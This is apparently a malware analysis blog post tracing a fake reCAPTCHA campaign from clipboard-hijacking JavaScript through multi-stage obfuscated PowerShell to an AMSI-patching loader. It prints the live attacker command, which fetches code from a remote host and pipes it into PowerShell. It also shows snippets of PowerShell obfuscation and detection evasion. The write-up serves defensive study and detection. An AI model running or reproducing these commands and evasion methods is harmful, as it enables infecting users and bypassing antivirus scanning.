# Overview
Fake reCAPTCHA campaigns are nothing new in the cyber threat landscape. Despite their simplicity, these campaigns are surprisingly effective at tricking users.  
The technique is straightforward: the victim is shown a fake reCAPTCHA page that instructs them to verify their identity by pasting a PowerShell command into the Windows Run dialog. This seemingly harmless action initiates the infection chain.

This article will focus on deobfuscating and analyzing the infection chain step by step, all the way to the final payload. It will also break down and explain the various techniques used by the attacker.

Here's a high-level diagram of the infection chain:



## 1st Stage Analysis
We can see the infamous fake reCAPTCHA page. Upon clicking "I'm not a robot," a prompt pops up, providing us with clear instructions regarding the "verification" process.



If we follow the instructions, we notice that something is copied to our clipboard. At first glance, this doesn't appear alarming.



However, when we paste the command into a text editor, we quickly realize it reveals something much different from what we initially expected.
```powershell
PoWERSHElL -w M"in"i"m"ized c"Url.E"X"e" -k -L --"re"try 9"9"9  ht"tps:/"/"dy"b"e"p.fu"n"/"fb8"8"c"1eb2"1"d"4"f"e2"71"2"723729a"d2"f"e"7"38.tx"t | powe"r"shell -;" 🌐 Access Guard: Validation. RefID: 45ab26cf05b6abc95f
```
Before we delve into the specifics of what this command does and the techniques it employs, it’s crucial to first understand how this command made its way into our clipboard.

Looking at the HTML source code, we can see the initialization of a new `<script>` tag, followed by obfuscated JavaScript code.



The obfuscator used here is Obfuscator.io, a free, open-source tool designed to obfuscate JavaScript code. This tool is commonly used by threat actors and malware authors.

Using a deobfuscator for Obfuscator.io reveals much cleaner and more readable code.



This code is still somewhat obfuscated, so let's manually deobfuscate it to fully understand what's going on.



After renaming some variables to more meaningful names, we can clearly see that this script creates an element named `textarea`, sets its content to a Base64-encoded string, and then decodes it using `window.atob()`. After that, it uses `document.execCommand("copy")` to copy the decoded content to the victim's clipboard.


Now that we have a better understanding of the code and its functionality, let’s pivot to the actual PowerShell command:
```powershell
PoWERSHElL -w M"in"i"m"ized c"Url.E"X"e" -k -L --"re"try 9"9"9  ht"tps:/"/"dy"b"e"p.fu"n"/"fb8"8"c"1eb2"1"d"4"f"e2"71"2"723729a"d2"f"e"7"38.tx"t | powe"r"shell -;" 🌐 Access Guard: Validation. RefID: 45ab26cf05b6abc95f
```
We can see a number of techniques implemented here:
- case‐altered obfuscation
- string splitting obfuscation

Both techniques are primarily used to evade static detection and are quite easy to implement. Let’s go over each and explain different ways they can be applied.

## Case‐altered obfuscation
Attackers exploit PowerShell’s inherent case-insensitivity, where cmdlets, parameters, and operators ignore letter case, by randomly or deliberately mixing uppercase and lowercase characters within commands and parameters. For example, instead of writing `powershell`, an attacker might write `PoWeRShELL` to evade static detection by security tools.

In our example the attacker used this technique several times -
```css
PoWERSHElL ---> PowerShell
cUrl.EXe --> curl.exe
```

## String splitting obfuscation
Another common technique is splitting a string into multiple parts and reconstructing it at runtime. This tactic is often used to evade static detection by breaking up known malicious patterns.

For example, we can create a Sigma rule that looks for `curl.exe` execution. Using string-splitting-based obfuscation evades this rule because the literal `curl.exe` never appears in the command line, it’s constructed at runtime from multiple parts. However, by leveraging PowerShell **Script Block Logging** (Event ID 4104), which records the fully deobfuscated script as it’s executed, this obfuscation becomes ineffective because the log contains the assembled command in clear text
```css
title: Curl Execution
id: 123-456-678-890
logsource:
  product: windows
  service: security
detection:
  selection:
    CommandLine|contains: 'curl.exe'
  condition: selection
```

There are multiple ways to implement string splitting obfuscation.

**Using Plus-Operator Concatenation**  
PowerShell’s addition operator (`+`) can concatenate string literals at runtime, e.g.:
```powershell
$url = 'h' + 'ttps://' + 'aviab.com' + '/payload.ps1'
```

**Using the -Join Operator**  
By placing fragments in an array and joining them, you prevent static detections of the assembled string:
```powershell
$parts = 'ht','tp','s:','//av','iab','.com'
$url = $parts -Join ''
```
The `-Join ''` collapses the array into the full URL only at execution time

**Using the Format Operator (-f)**  
The format operator reorders and injects substrings according to placeholders:
```powershell
& ("{1}{0}" -f 'ab','avi')
```

**Using Array Slicing and Reversal**  
You can slice and reverse a character array to stealthily reconstruct strings:
```powershell
-join ([char[]]'1baiva'[-1..-6])
```

Now that we've discussed some of the techniques used by the attacker, let's analyze the entire command:
```powershell
PowerShell -w Minimized curl.exe -k -L --retry 999  hxxps[://]dybep[.]fun/fb88c1eb21d4fe2712723729ad2fe738[.]txt | powershell -; 🌐 Access Guard: Validation. RefID: 45ab26cf05b6abc95f
```
We can see that the attacker runs PowerShell with the `-WindowStyle Minimized` (`-w Minimized`) flag to launch a minimized window, reducing the chance of the user noticing. Then, `curl.exe` is used with the `-k` (ignore certificate errors), `-L` (follow redirects), and `--retry 999` (try up to 999 times) options to fetch a remote payload from `dybep[.]fun`.

The downloaded content is piped (`|`) directly into another PowerShell instance using `powershell -`, which tells PowerShell to read and execute commands from standard input (i.e. the result of the `curl` request).

The part after the semicolon (`;`) - `🌐 Access Guard: Validation. RefID: 45ab26cf05b6abc95f` is not executed. It's simply a **comment**, used as social engineering to make the command look like a benign system message. This is particularly misleading in the **Run dialog** (`Win+R`), which only displays the part of the command after the semicolon, making the malicious portion less obvious.


## 2nd Stage Analysis
Following the website the initial command got the next stage from we can see the following.



We can see a highly obfuscated PowerShell script that doesn't reveal much at the moment.  
The script repeats the same pattern, with the only difference being the number of spaces.
```powershell
&(([char]('                        '.Length))
+([char]('                     '.Length))
+([char]('                       '.Length)))
+(([char]('                     '.Length))
+([char]('                     '.Length))
<....>
```

This technique is quite interesting. At the beginning, we see the call operator (`&`), which allows you to execute a command, script, or function in PowerShell. Following that, the script calculates the length of the spaces and inserts that value into the array.

If you haven’t figured it out already, this technique is called **whitespace‐length obfuscation**, which uses the length of whitespace to calculate valid ASCII codes and construct a string.

Here's an example to help illustrate it better.
```powershell
&(
    [char](' ' * 72).Length +
    [char](' ' * 73).Length
)
```
This short example shows exactly how this technique works. We simply create strings of spaces whose lengths match the ASCII codes we want, convert those lengths to characters with `[char]`, and then use the call operator (`&`) to execute the resulting string.



After understanding the logic behind this obfuscation technique, the process becomes quite straightforward. We can simply replace the call operator with `Write-Host` to print the deobfuscated output.  
Alternatively, we could write a short Python script that uses regular expressions to count the number of spaces, convert them into ASCII characters, and display the result.

Let's try both approaches.
First, we can simply replace the call operator **at the beginning of the script** with `Write-Host`, **which** will defang the script and just print out the output of the script.



Alternatively, we can write a short Python script to deobfuscate the code:
```python
import re

obfuscated = """
    obfuscated code here     
"""

matches = re.findall(r"\[char\]\('([ ]+)'\.Length\)", obfuscated)
decoded = ''.join(chr(len(s)) for s in matches)
print(f"the result is \n{decoded}")
```
Either method will produce the following output:



This stage encompasses a few new obfuscation techniques that we'll briefly go over.

**Shorthand Parameters**

In PowerShell, many cmdlet parameters can be abbreviated to their shortest unique form. For instance, `-NoProfile` can be shortened to `-NoP`, and `-ExecutionPolicy` to `-Ex`. While this feature is designed for convenience, attackers often exploit it as an obfuscation technique to make scripts harder to read and analyze.
For example, the use of `'-NoP','-Ex','Bypass','-C'`is equivalent to `'-NoProfile', '-ExecutionPolicy', '-Command'`

**Variable Aliasing**

PowerShell allows the creation of aliases, alternate names for cmdlets, functions, scripts, or executable files. This means that a longer cmdlet name can be represented by a shorter alias, simplifying command usage.
For example, the use of `SI` for `Set-Item`, `SV` for `Set-Variable`, and `GCI` for `Get-ChildItem`

**Use of Where Clauses with Wildcards**

In PowerShell, the `Where-Object` cmdlet is used to filter objects based on specified conditions. When combined with wildcard patterns, it allows for flexible and dynamic filtering of object properties. This technique is often employed to obfuscate code, making it less readable and harder to analyze.

For example, we can use `Where-Object` to find all text files in a certain directory:
```powershell
Get-ChildItem | Where-Object { $_.Name -like '*.txt' }
```
In obfuscated scripts, wildcards can be used to dynamically select methods:
```powershell
$method = $object | Get-Member | Where-Object { $_.Name -clike '*wn*d*g*' }
```
which corresponds to `DownloadString`


After deobfuscating the script, we obtain the following:



This essentially retrieves the content from the specified URL and executes it directly in memory.


## 3rd Stage Analysis
After accessing the website containing the next stage, we observed the following:



This stage was heavily obfuscated and long, approximately 70,000 lines making manual deobfuscation highly time-consuming.

This script uses multiple obfuscation techniques, including complex control flow, dynamic value and string calculations, switch-case logic, and math-based loops, likely to manipulate execution and evade detection. It also relies on string obfuscation and control flow manipulation to hide behavior and conditionally execute code.

With that in mind, I decided to tackle it using dynamic analysis and let the script handle the deobfuscation for me. I looked for interesting elements in the script, anything that deviated from the overall pattern. After some time, I found a byte array at the end of the script that looked promising. Upon closer inspection, it appeared that the array was encrypted using XOR, with the key being generated at runtime before the array was decrypted.

Let's take a look at it



At this point, it’s pretty hard to make sense of everything, but there are some subtle hints. It looks like the byte array is being manipulated, probably decrypted using a key that’s generated at runtime.

We'll now try to get all the relevant variables at runtime, just print them and try to make sense of what's going on.



Printing all the variables used near the end of the script yielded quite interesting results.



We found the XOR key which is in the `JQSnViepUWABkv` variable, it seems like the key corresponds to the string `AMSI_RESULT_NOT_DETECTED` which is quite interesting.



After changing the variables we get this 



This is much better than what we had before. We can now clearly see that the script is generating an XOR key using the string `AMSI_RESULT_NOT_DETECTED`. It then proceeds by decoding the byte array, decrypting it within a `for` loop, and invoking it in memory.

Now that we know all this, we can defang the script by removing the invocation and simply print the result of the decryption without executing it.

Before executing, we just need to remove the `$Invoke` method to defang the script and then print the `$decodedByteArray` so we can move on to the next stage. Doing so resulted in the following stage:




## Final Stage Analysis
In this stage, we can see the following code appears to patch AMSI by scanning the process’s memory regions, modifying memory protection if necessary, and then iterating over the buffer containing the AMSI signature to overwrite it with null bytes. After patching AMSI the script loads PE file into memory.

For those unfamiliar with AMSI, **the Antimalware Scan Interface (AMSI)** is a Windows feature that allows applications and scripts to be scanned for malicious content in real-time by integrating with antivirus or endpoint detection and response (EDR) solutions.

The script constructs a string named `AmsiScanBuffer` and saves it to the `$signature` variable. This string is used to scan memory during the AMSI patching process.



The script then loops through the memory regions and checks if each region is both readable and writable using the `IsReadable` function. If a region is not readable and writable, the script continues to the next region.



In addition, it filters for `clr.dll`, which is commonly loaded by .NET applications like PowerShell. This likely means it targets only .NET-based processes.



Next, the script loops through the memory regions, looks for the AMSI function name, and then patches it by overwriting it with null bytes.

